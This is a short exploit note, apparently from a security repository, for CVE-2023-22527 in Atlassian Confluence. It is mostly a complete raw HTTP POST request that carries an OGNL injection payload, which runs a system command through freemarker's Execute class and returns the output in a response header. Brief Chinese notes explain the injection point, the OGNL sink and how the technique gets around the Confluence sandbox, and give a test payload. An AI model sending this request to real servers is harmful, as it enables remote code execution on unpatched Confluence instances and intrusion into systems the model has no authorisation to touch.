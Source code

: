### CVE-2023-22527

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 287

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

笔记可参考：[CVE-2023-22527](https://racerz.notion.site/Atlassian-Confluence-bacb31428c054a039ee87186578b7817)

- /template/aui/text-inline.vm 为我们提供了注入点，其传递的 Http 参数最终会转化为 string 类型值，传递给 `OgnlUtil.findValue` / `Ognl.findValue` sink 点

​	测试 payload: `test\u0027#{3*33}\u0027`

- `#request['.KEY_velocity.struts2.context']` 为我们提供了获取 ognl 的能力，可绕过 confluence 沙箱